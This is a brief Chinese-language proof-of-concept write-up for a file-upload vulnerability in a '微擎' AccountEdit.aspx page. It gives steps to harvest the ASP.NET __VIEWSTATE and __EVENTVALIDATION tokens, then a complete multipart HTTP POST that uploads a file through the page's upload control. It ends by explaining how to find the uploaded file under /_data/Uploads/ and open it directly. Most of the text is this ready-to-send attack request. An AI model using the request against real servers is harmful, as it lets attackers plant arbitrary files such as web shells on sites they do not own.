## 微擎-AccountEdit-file-upload文件上传漏洞


1、访问/User/AccountEdit.aspx，查看源代码，搜索__VIEWSTATE" value=" 和__EVENTVALIDATION" value="这两个字符串，记录下来
## poc
```
POST /User/AccountEdit.aspx HTTP/1.1
Host:
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data;boundary=---------------------------8448979704593935221298734076

-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="__VIEWSTATE"

{VIEWSTATE}
-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="__EVENTVALIDATION"

{EVENTVALIDATION}
-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$upload"; filename="111.txt"
Content-Type: text/plain

1233311
-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$bttnUpload"

上传图片
-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$txtLastName"


-----------------------------8448979704593935221298734076
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$txtEmail"


-----------------------------8448979704593935221298734076--
```

文件路径在第2步的响应里面搜索字符_data/Uploads/  即可找到，然后直接url+/_data/Uploads/{filepath}访问即可。

